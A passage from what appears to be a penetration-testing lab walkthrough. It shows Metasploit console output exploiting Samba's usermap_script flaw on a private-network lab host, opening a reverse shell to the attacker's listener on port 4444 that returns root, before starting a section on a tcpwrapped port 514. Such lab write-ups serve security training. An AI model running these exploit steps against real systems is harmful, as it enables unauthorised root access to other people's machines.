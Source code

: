 ``` plain

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.127.154  yes       The target address
   RPORT  139              yes       The target port


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(usermap_script) > set LHOST 192.168.127.159
LHOST => 192.168.127.159
msf exploit(usermap_script) > set RPORT 445
RPORT => 445
msf exploit(usermap_script) > exploit

[*] Started reverse double handler
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo f8rjvIDZRdKBtu0F;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "f8rjvIDZRdKBtu0F\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.127.159:4444 -> 192.168.127.154:46653) at 2014-06-04 22:23:23 +0300

whoami
root

```


### Port 514 tcpwrapped

The nmap scan revealed the port is open but it's tcpwrapped. Let's first see what that means:
